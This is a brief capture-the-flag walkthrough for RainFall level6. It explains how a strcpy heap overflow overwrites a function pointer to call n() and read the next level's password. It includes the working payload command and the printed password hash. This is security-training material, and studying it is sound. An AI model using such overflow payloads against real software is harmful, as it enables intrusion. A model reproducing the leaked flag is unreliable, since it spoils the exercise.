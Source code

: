 # Walkthrough

## Disassembling the executable

see source.c

## Exploit

In the main function, the pointer p1 holds the address of m() and then calls that address.

Since the p1 is allocated after p2 we are going to exploit the strcpy by overwriting p2 and p1. At the address of p1 we are going to write the address of n() in order to execute that function which cat the .pass at level 7.

```
level6@RainFall:~$ ./level6 $(python -c "print('a' * 72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
